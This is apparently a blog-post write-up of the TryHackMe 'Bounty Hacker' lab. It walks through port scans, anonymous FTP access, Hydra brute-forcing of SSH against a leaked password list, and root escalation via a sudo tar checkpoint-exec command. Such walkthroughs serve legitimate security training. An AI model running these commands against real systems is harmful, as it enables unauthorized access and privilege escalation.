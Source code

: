 ```yaml
---
layout: post
title: "Bounty Hacker"
date: 2022-03-21
categories: [Tryhackme, Easy-THM]
tags: [Linux, tar, privesc, ftp, brute-force, security]
image: ../../assets/img/posts/AgentSudo/BountyHacker.png 

---
```


## Description

You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker! 

|**Room**|[Bounty Hacker](https://tryhackme.com/room/cowboyhacker)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Creator**|[Sevuhl](https://tryhackme.com/p/Sevuhl)|

---

Let's start with rustscan to quickly finds all open ports,

```bash
rustscan -a 10.10.229.96
```

![image](https://user-images.githubusercontent.com/67465230/159214665-39c43705-3f50-4cba-b828-f81f893993b4.png)

we got 3 open ports. Let's run a detail nmap scan on these ports to enumerate details.

```bash
nmap -sV -sC -p21,22,80 10.10.229.96 -oN nmap.txt
```

![image](https://user-images.githubusercontent.com/67465230/159214676-8fb39588-d40f-4b6a-aeba-093a2f36530f.png)

With nmap scan, we got to know that port 21 is running ftp service with anonymous login, port 22 is running ssh service and port 80 is running webserver. We'll first enumerate ftp service and then move towards webserver (port 80).

```bash
ftp 10.10.229.96
```

![image](https://user-images.githubusercontent.com/67465230/159214686-c5603821-9d12-458f-8000-6c7b82412957.png)

after providing credentials, **Anonymous:Anonymous**, we got logged in.

Let's establish directory content using `ls -la`,

![image](https://user-images.githubusercontent.com/67465230/159214704-0974210e-2f20-4f67-aa49-74cd887bff45.png)

we got 2 files named locks.txt and task.txt. Let's download them on our local system using `get` command,

```bash
get locks.txt
get tasks.txt
```

![image](https://user-images.githubusercontent.com/67465230/159214720-4774e0ff-85da-4ec6-9292-b23bc8e6638e.png)

With this, we've downloaded both files on our system. It's time to read the content of these files.

```bash
cat tasks.txt
```

![image](https://user-images.githubusercontent.com/67465230/159214730-36487de5-1c3c-45bc-b253-c2bbac9e623b.png)

After reading content of tasks.txt file, we got to know that Lin is author of the file or maybe a user? Let's see.

Let's read the locks.txt file content,

```bash
cat locks.txt
```

![image](https://user-images.githubusercontent.com/67465230/159214738-7ce1c3d3-9f1a-4799-b6af-f0baa966279e.png)

Seems like these are all passwords. Worth giving a shot to bruteforce to find out correct credential.

Now that we've enumerated ftp, let's enumerate webserver by visiting http://10.10.229.96,

![image](https://user-images.githubusercontent.com/67465230/159214750-7872f1e5-d6bd-4b29-8414-c9303a0634b1.png)

we got a webpage and it seems like these characters are trying to break into system. But since, we don't know the credential to login via ssh, we can't move forward. So let's create a user list which contains name of users,

```bash
cat user.txt
```

![image](https://user-images.githubusercontent.com/67465230/159214759-e5ff2534-10e4-494e-857e-8ce8ba3df213.png)

Reading the content of the file will confirm that we've added all the users.

Now that we've users list and password list, let's try to bruteforce credentials of ssh service with help of tool Hydra,

```bash
hydra -L user.txt -P locks.txt ssh://10.10.229.96:22/ -t 4
```

![image](https://user-images.githubusercontent.com/67465230/159214768-43d762fd-cbed-439b-be34-d415f319cca1.png)

after sometime, we'll get correct username and password. Let's now try to login via ssh service,

```bash
ssh lin@10.10.229.96
```

![image](https://user-images.githubusercontent.com/67465230/159214774-8df3f685-d7eb-4f93-b6c3-b1d60a845df0.png)

we've successfully authenticate ourselves as lin user.

Let's establish directory content using `ls -la`,

![image](https://user-images.githubusercontent.com/67465230/159214789-a0c6713e-e0fd-4a09-9c14-99ca9a9c00f7.png)

we got our user flag.

Now, the part remains is privilege escalation. Let's now list all the binaries which can be run as sudo without providing root user's password, 

```bash
sudo -l
```

![image](https://user-images.githubusercontent.com/67465230/159214802-c5b0f1f1-d565-43b5-bae9-e0beb88ee309.png)

we can see that /bin/tar binary can be run as sudo without providing password. Let's search if this binary privesc is on [GTFObins](https://gtfobins.github.io).

And we found a method to elevate our privileges using this binary,

![image](https://user-images.githubusercontent.com/67465230/159214813-c58cb969-b205-43db-8627-02064439687e.png)

we just have to execute this command and we're root. 

```bash
sudo tar -cf /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

![image](https://user-images.githubusercontent.com/67465230/159214833-bcff2850-026b-437a-9e63-f870c679f3a8.png)

after executing this command, we'll become root user and we can confirm it with `id` command.

let's navigate to /root directory and establish directory content using `ls -la`

![image](https://user-images.githubusercontent.com/67465230/159214845-134eda90-eb64-434d-96c0-8f9f09956973.png)

and there we have it, our root flag.